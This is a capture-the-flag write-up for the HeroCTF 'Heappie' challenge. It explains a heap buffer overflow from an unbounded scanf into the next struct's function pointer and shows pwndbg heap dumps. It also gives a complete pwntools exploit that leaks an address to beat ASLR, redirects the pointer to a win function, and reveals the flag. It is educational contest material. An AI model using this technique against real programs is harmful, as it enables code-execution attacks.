 https://ctftime.org/event/2496

# Heappie (pwn)

Heappie is a simple application that allows you to save and play your favorite songs. Find a way to exploit it and read the flag.

nc pwn.heroctf.fr 6000

## Analysis

We have a heap buffer overflow in `add_music`:

```C
printf("Enter music description: ");
scanf("%s", music->description);
```

We can see that `description` is the last member of the `Music` struct:

```C
typedef struct Music {
    void (*play)(struct Music*);

    char title[32];
    char artist[32];
    char description[128];
} Music;
```

This means that when we overflow it we will start writing into the next `Music`'s memory

We can test this with `vis_heap_chunks` in `pwndbg` by sending the following payload for the description:

```python
payload = b""
payload += b"B" * 128
payload += p64(elf.sym["win"]) # p64(0x000062fb82a151f9)
```

```
pwndbg> vis_heap_chunks
...
0x62fb84018290	0x0000000000000000	0x00000000000007e1	................
# Music[0] @ 0x62fb840182a0
0x62fb840182a0	0x000062fb82a152e9	0x0000000000000041	.R...b..A.......
0x62fb840182b0	0x0000000000000000	0x0000000000000000	................
0x62fb840182c0	0x0000000000000000	0x0000000000000041	........A.......
0x62fb840182d0	0x0000000000000000	0x0000000000000000	................
0x62fb840182e0	0x0000000000000000	0x0000000000000041	........A.......
0x62fb840182f0	0x0000000000000000	0x0000000000000000	................
0x62fb84018300	0x0000000000000000	0x0000000000000000	................
0x62fb84018310	0x0000000000000000	0x0000000000000000	................
0x62fb84018320	0x0000000000000000	0x0000000000000000	................
0x62fb84018330	0x0000000000000000	0x0000000000000000	................
0x62fb84018340	0x0000000000000000	0x0000000000000000	................
0x62fb84018350	0x0000000000000000	0x0000000000000000	................
0x62fb84018360	0x0000000000000000	0x0000000000000000	................
# Music[1] @ 0x62fb84018370
0x62fb84018370	0x0000000000000041	0x0000000000000000	A...............
0x62fb84018380	0x0000000000000000	0x0000000000000000	................
0x62fb84018390	0x0000000000000041	0x0000000000000000	A...............
0x62fb840183a0	0x0000000000000000	0x0000000000000000	................
0x62fb840183b0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183c0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183d0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183e0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183f0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb84018400	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb84018410	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb84018420	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
# Music[2] @ 0x62fb84018430
0x62fb84018430	0x000062fb82a151f9	0x0000000000000041	.Q...b..A.......
0x62fb84018440	0x0000000000000000	0x0000000000000000	................
0x62fb84018450	0x0000000000000000	0x0000000000000041	........A.......
0x62fb84018460	0x0000000000000000	0x0000000000000000	................
0x62fb84018470	0x0000000000000000	0x0000000000000041	........A.......
...
```

We can see the value of `0x000062fb82a151f9` or `win` at `0x62fb84018430` which is the location of the next `Music`'s `play` function pointer.

## Solution

1) Add music with a play function so we can leak its address
2) Compute the image base using `play_1`, `play_2` and `play_3` looking for a base aligned to a 4K boundry
3) Add music overflowing the description such that the next `Music`'s `play` function pointer is set equal to the address of the `win` function
4) Add music taking care not to overwrite the value in the `play` function pointer
5) Play the last `Music` in the list this will call `win`

```python
#!/usr/bin/env python3

from pwn import *
import ctypes

#context.log_level = "debug"
elf = ELF("./heappie", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("pwn.heroctf.fr", 6000)

def add_music(play, desc):
    p.sendlineafter(b">> ", b"1")
    p.sendlineafter(b"(y/n): ", play)
    p.sendlineafter(b"title: ", b"A")
    p.sendlineafter(b"artist: ", b"A")
    p.sendlineafter(b"description: ", desc)

def get_aslr_base():
    p.sendlineafter(b">> ", b"4")
    p.readuntil(b"song: ")
    leak = int(p.readline()[:-2].decode(), 16)
    base = leak - elf.sym["play_1"]
    if (base & 0xfff) == 0:
        return base
    base = leak - elf.sym["play_2"]
    if (base & 0xfff) == 0:
        return base
    base = leak - elf.sym["play_3"]
    return base

add_music(b"y", b"A")

elf.address = get_aslr_base()

payload = b""
payload += b"B" * 128
payload += p64(elf.sym["win"])
add_music(b"n", payload)

add_music(b"n", b"A")

p.sendlineafter(b">> ", b"2")
p.sendlineafter(b"index: ", b"2")
p.readuntil(b"Flag: ")
log.success(p.readline().decode()) # Hero{b4s1c_H3AP_0verfL0w!47280319}
```

## Flag
`Hero{b4s1c_H3AP_0verfL0w!47280319}`

smiley 2024/10/27
